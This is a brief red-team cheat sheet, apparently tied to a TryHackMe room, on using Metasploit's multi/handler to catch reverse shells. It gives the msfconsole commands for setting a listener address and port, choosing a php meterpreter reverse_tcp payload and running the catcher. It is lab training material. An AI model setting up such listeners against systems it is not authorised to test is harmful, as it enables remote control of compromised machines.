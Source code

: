 # msfhandler

[![metasploitexploitation](../../../../../_badges/thmp/metasploitexploitation.svg)](https://tryhackme.com/room/metasploitexploitation)

<div class="row row-cols-lg-2"><div>

The msfconsole can be used to catch reverse shells. Some reverse shell may be upgradable to a [meterpreter](../index.md#meterpreter), which is the main goal.

* First, load the exploit, and define LHOST/LPORT 

```shell!
$ msfconsole -q
msf6> use multi/handler
msf6> setg LHOST tun0
msf6> setg LPORT 4444
```

* Select the payload that would be appropriate

```shell!
msf6> # warning, payload must match your client
msf6> set PAYLOAD php/meterpreter/reverse_tcp
msf6> grep meterpreter show payloads
msf6> grep reverse_tcp grep Linux show payloads
```
</div><div>

* Run the catcher, and wait for incoming connections.

```shell!
msf6> run         # Wait for clients
meterpreter> help # See what you can do
```

➡️ Your shell may not be a meterpreter, so you may try to [upgrade it](../index.md#meterpreter).

📚 Refer to [msfvenom](/cybersecurity/red-team/s3.exploitation/shell/tools/msfvenom.md) to find payloads.
</div></div>